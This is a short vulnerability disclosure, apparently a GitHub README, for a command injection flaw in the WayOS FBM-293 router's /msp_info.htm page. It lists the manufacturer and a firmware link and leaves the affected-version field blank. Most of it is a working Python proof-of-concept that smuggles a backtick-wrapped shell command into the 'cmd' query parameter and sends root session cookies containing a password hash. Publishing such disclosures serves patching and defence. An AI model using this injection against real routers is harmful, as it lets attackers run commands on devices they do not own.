

# wayos_FBM_293

## Firmware information
+ Manufacturer's address:[https://www.wayos.com/](https://www.wayos.com/)
+ Firmware download address:[https://drive.weixin.qq.com/s?k=ANgAJAcRAAcDrEqJTG#/preview?fileId=s.1970324955538648.649217589iNQ_f.6772254215xDg](https://drive.weixin.qq.com/s?k=ANgAJAcRAAcDrEqJTG#/preview?fileId=s.1970324955538648.649217589iNQ_f.6772254215xDg)

## Affected version


## Vulnerability details

In /msp_info.htm, There is command injection
## Poc
Request before sending

Request after sending:


```
import requests

burp0_url = "http://192.168.1.1:80/msp_info.htm?flag=cmd&cmd=`ps%20%3E%20/ProcInfo.txt`"
burp0_cookies = {"userid": "root", "gw_userid": "root,gw_passwd=3367B3DE1D5A18392A560817EC87A7C9"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```